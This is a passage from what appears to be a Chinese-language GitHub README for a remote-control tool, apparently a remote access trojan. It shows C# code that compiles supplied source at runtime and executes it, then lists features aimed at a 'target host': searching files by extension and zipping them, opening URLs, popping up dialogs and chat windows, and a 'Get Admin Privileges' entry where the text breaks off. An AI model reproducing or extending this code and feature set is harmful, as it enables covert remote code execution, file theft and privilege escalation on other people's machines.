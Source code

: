 ```

                var compilerResults = codeDomProvider.CompileAssemblyFromSource(compilerParameters, source);
                if (compilerResults.Errors.Count > 0)
                {
                    foreach (CompilerError compilerError in compilerResults.Errors)
                    {
                        Console.WriteLine(string.Format("{0}\nLine: {1} - Column: {2}\nFile: {3}", compilerError.ErrorText,
                            compilerError.Line, compilerError.Column, compilerError.FileName));
                        break;
                    }
                }
                else
                {
                    Assembly assembly = compilerResults.CompiledAssembly;
                    MethodInfo methodInfo = assembly.EntryPoint;
                    object injObj = assembly.CreateInstance(methodInfo.Name);
                    object[] parameters = new object[1];
                    if (methodInfo.GetParameters().Length == 0)
                    {
                        parameters = null;
                    }
                    methodInfo.Invoke(injObj, parameters);
                }
            }
            catch (Exception ex)
            {
                Console.WriteLine(ex.Message);
            }
        }
    }
}
```

(7)Files Searcher

搜索指定后缀名的文件并打包成zip文件

### 4.Extra

(1)Visit Website

启动默认浏览器并访问指定URL，界面不隐藏

(2)Send MessageBox

在目标主机上弹出对话框

(3)Chat

在目标主机上弹出对话框，实时显示输入的内容


(4)Get Admin Privileges
